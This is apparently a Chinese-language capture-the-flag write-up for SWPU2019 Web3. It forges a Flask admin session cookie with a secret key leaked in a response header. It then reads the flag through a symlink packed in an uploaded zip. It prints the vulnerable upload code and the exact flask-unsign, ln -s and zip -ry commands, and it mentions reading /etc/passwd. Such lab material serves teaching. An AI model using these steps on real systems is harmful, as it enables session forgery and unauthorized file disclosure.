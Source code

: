 # \[SWPU2019]Web3

## \[SWPU2019]Web3

## 考点

* Flask session伪造
* Linux命令
* `ln`命令新建"快捷方式"

## wp

标题flask-demo提示是个flask的框架

随便输入用户名和密码可以登录，然后回显用户名，这里可能有SSTI

![](<../../.gitbook/assets/image (8).png>)

点击upload提示`Permission denied!`，要进行flask session伪造，先试试SSTI，用户名输入`{{7*7}}`原样返回

![](<../../.gitbook/assets/image (7) (1).png>)

只能想其他办法获取`secret_key`，发现在404页面的返回头存在`Swpuctf_csrf_token`，为`U0VDUkVUX0tFWTprZXlxcXF3d3dlZWUhQCMkJV4mKg==`

![](<../../.gitbook/assets/image (1) (1) (1).png>)

解码后为`SECRET_KEY:keyqqqwwweee!@#$%^&*`，然后重新加密session，内容是`{'id': b'1', 'is_login': True, 'password': '111', 'username': 'admin'}`

```
flask-unsign --secret "keyqqqwwweee!@#$%^&*" --sign --cookie "{'id': b'1', 'is_login': True,
'password': '111', 'username': 'admin'}"
```

得到`eyJpZCI6eyIgYiI6Ik1RPT0ifSwiaXNfbG9naW4iOnRydWUsInBhc3N3b3JkIjoiMTExIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Ymz6jQ.Hk-k8PvafeNbp8uRfcuWnWVjJhA`

修改cookie可以访问`/upload`页面

在注释中找到代码

```python
@app.route('/upload',methods=['GET','POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method=='POST':
        m = hashlib.md5()
        name = session['password']
        name = name+'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one= m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f=request.files['file']
        basepath=os.path.dirname(os.path.realpath(__file__))
        path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
        path_base = basepath+'/upload/'+md5_ip+'/'
        filename = f.filename
        pathname = path+filename
        if "zip" != filename.split('.')[-1]:
            return 'zip only allowed'
        if not os.path.exists(path_base):
            try:
                os.makedirs(path_base)
            except Exception as e:
                return 'error'
        if not os.path.exists(path):
            try:
                os.makedirs(path)
            except Exception as e:
                return 'error'
        if not os.path.exists(pathname):
            try:
                f.save(pathname)
            except Exception as e:
                return 'error'
        try:
            cmd = "unzip -n -d "+path+" "+ pathname
            if cmd.find('|') != -1 or cmd.find(';') != -1:
				waf()
                return 'error'
            os.system(cmd)
        except Exception as e:
            return 'error'
        unzip_file = zipfile.ZipFile(pathname,'r')
        unzip_filename = unzip_file.namelist()[0]
        if session['is_login'] != True:
            return 'not login'
        try:
            if unzip_filename.find('/') != -1:
                shutil.rmtree(path_base)
                os.mkdir(path_base)
                return 'error'
            image = open(path+unzip_filename, "rb").read()
            resp = make_response(image)
            resp.headers['Content-Type'] = 'image/png'
            return resp
        except Exception as e:
            shutil.rmtree(path_base)
            os.mkdir(path_base)
            return 'error'
    return render_template('upload.html')


@app.route('/showflag')
def showflag():
    if True == False:
        image = open(os.path.join('./flag/flag.jpg'), "rb").read()
        resp = make_response(image)
        resp.headers['Content-Type'] = 'image/png'
        return resp
    else:
        return "can't give you"
```

session中的username为admin，password为111。

那这段代码就在说，先根据session中的username和password，以及IP地址生成上传目录，然后上传一个zip压缩包，对其进行解压，解压的文件名不能包含`/`，获得的第一个文件以图片形式展示。在`showflag()`中说明了flag的位置，但是不知道绝对路径。

如果使用`ln -s /proc/self/cwd/flag/flag.jpg test`新建一个指向`flag`的链接，再用`zip`压缩`test`文件，是不是就可以访问`flag`了，但是如果直接压缩不会保存连接符，要用`zip -y`参数

所以本题就是

1. `ln -s /proc/self/cwd/flag/flag.jpg test`
2. `zip -ry test.zip test`

再上传即可

![](<../../.gitbook/assets/image (6).png>)

## 小结

1. Linux下`/proc/self/cwd/`会指向进程的当前目录
2. `ln -s /etc/passwd test` 相当于新建一个链接到`/etc/passwd`的文件`test`，对`test`使用`cat`等命令会自动指向`/etc/passwd`
